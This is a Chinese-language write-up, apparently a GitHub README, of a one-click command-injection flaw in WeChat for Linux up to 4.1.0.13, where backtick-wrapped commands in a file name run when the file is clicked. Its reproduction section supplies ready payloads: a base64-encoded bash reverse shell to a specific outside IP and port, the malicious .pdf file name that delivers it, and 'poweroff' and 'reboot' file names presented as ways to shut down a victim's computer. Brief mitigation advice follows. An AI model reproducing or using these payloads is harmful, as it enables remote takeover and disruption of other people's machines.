

# Wechat for Linux 1-Click RCE

### 漏洞描述

2026年2月10日，Linux版微信被披露有1-Click RCE漏洞。由于Linux版微信程序在处理接收文件时，未能对文件名充分校验，导致存在命令注入漏洞。攻击者可以精心构建包含系统命令的恶意文件名，一旦目标用户点击该文件，程序在后台处理过程中便会将文件名作为指令执行，导致攻击者注入的任意命令在目标机的系统环境中运行。

### 漏洞复现

All you need is `😲

只需要在文件名中用反引号包裹想要执行的命令，目标机一点击文件即可执行命令。

比如`whoami && ls -l`.pdf，或者任何你想执行的系统命令，尝试了一下反弹`shell`。

```python
>>> from base64 import *
>>> b64encode(b'bash -i >& /dev/tcp/34.19.3.124/9999 0>&1')
b'YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC4xOS4zLjEyNC85OTk5IDA+JjE='
```

`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC4xOS4zLjEyNC85OTk5IDA+JjE= | base64 -d | bash`.pdf



`poweroff`.pdf或`reboot`.pdf更是绝杀，只要对方用Linux版微信点击文件，你就能关他电脑或帮忙重启。

### 处置建议

受影响版本：Wechat for Linux <= 4.1.0.13。目前官方尚未发布Linux版微信的修复版本。防护建议：

- 在使用Linux版微信时，避免点击包含特殊字符或可疑内容的异常文件，以保护设备与信息安全。
- 在Linux系统中尽量使用网页版微信进行必要的沟通交流与文件传输，以降低Linux版微信客户端漏洞被利用的风险。